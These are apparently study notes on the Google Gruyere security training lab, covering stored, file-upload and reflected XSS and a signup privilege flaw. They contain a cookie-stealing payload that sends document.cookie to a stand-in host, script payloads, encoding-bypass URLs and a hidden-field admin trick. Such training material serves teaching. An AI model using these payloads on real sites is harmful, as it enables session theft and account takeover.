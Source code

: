 1. Login as a normal user

In new snipper option we can type:`<b><a href="window.location='http://somewhere.com?data='+ document.cookie">click me me me </a></b>`  for cookiw stealing.

2. Look at the code for bugs
    a. IN the signup page the form method uses get function
    b. THere is hidden field with `new` as value if we cahngfe that to `admin`

Following the web exploit and defenses - 

1. Cross site scripting (XSS)

2. File upload XSS 
Can you upload a file that allows you to execute arbitrary script on the google-gruyere.appspot.com domain?
Hint

You can upload HTML files and HTML files can contain script.
Exploit and Fix

To exploit, upload a .html file containing a script like this:

<script>
alert(document.cookie);
</script>

To fix, host the content on a separate domain so the script won't have access to any content from your domain. That is, instead of hosting user content on example.com/username we would host it at username.usercontent.example.com or username.example-usercontent.com. (Including something like "usercontent" in the domain name avoids attackers registering usernames that look innocent like wwww and using them for phishing attacks.) 

3. Reflected XSS

 The most dangerous characters in a URL are < and >. If you can get an application to directly insert what you want in a page and can get those characters through, then you can probably get a script through. Try these:

https://google-gruyere.appspot.com/650318352957853130133175248747589003590/%3e%3c
https://google-gruyere.appspot.com/650318352957853130133175248747589003590/%253e%253c
https://google-gruyere.appspot.com/650318352957853130133175248747589003590/%c0%be%c0%bc
https://google-gruyere.appspot.com/650318352957853130133175248747589003590/%26gt;%26lt;
https://google-gruyere.appspot.com/650318352957853130133175248747589003590/%26amp;gt;%26amp;lt;
https://google-gruyere.appspot.com/650318352957853130133175248747589003590/\074\x3c\u003c\x3C\u003C\X3C\U003C
https://google-gruyere.appspot.com/650318352957853130133175248747589003590/+ADw-+AD4-

This tries > and < in many different ways that might be able to make it through the URL and get rendered incorrectly using: verbatim (URL %-encoding), double %-encoding, bad UTF-8 encoding, HTML &-encoding, double &-encoding, and several different variations on C-style encoding. View the resulting source and see if any of those work. (Note: literally typing >< in the URL is identical to %3e%3c because the browser automatically %-encodes those character. If you are trying to want a literal > or < then you will need to use a tool like curl to send those characters in URL.) 

o exploit, create a URL like the following and get a victim to click on it:

https://google-gruyere.appspot.com/650318352957853130133175248747589003590/%26lt;b%26gt%26lt;script%26gt;alert(1)%26lt;%2Fscript%26gt;%26lt;%2Fb%26gt
